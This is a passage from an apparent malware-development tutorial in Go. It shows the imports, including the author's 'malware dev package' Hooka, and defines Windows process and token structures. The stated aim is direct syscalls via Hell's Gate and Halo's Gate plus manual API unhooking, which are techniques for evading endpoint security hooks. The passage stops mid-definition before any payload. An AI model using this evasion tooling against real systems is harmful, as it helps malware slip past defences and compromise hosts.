 Now we continue:

```go
package main

import (
  "os"
  "fmt"
  "log"
  "time"
  "errors"
  "unsafe"
  "syscall"

  "golang.org/x/sys/windows"

  // Custom malware dev package
  "github.com/D3Ext/Hooka/pkg/hooka"
)
```

In this post we also will be using my own malware development library which has tons of useful functions but today we just will use it to implement ***direct syscall*** via Hell's Gate and Halo's Gate techniques. However the rest of the program like API unhooking will be done by hand.

In case you don't know too much about this techniques you can get a really good overview of them [here](https://github.com/am0nsec/HellsGate) and [here](https://blog.sektor7.net/#!res/2021/halosgate.md)

I won't dig this to deep but here we define required structures, most of them are used to interact with processes or session tokens later:

```go
// Necessary structures
type ClientID struct {
  UniqueProcess uintptr
  UniqueThread  uintptr
}

type ObjectAttrs struct {
  Length                   uintptr
  RootDirectory            uintptr
  ObjectName               uintptr
  Attributes               uintptr
  SecurityDescriptor       uintptr
  SecurityQualityOfService uintptr
}

type WindowsProcess struct { // Windows process structure
  ProcessID       int     // PID
  ParentProcessID int     // PPID
  Exe             string  // Cmdline executable (e.g. explorer.exe)
}

// Privileges and attributes
type Luid struct {
  lowPart  uint32
  highPart int32
}

type LuidAndAttributes struct {
  luid       Luid
  attributes uint32
}

type TokenPrivileges struct {
```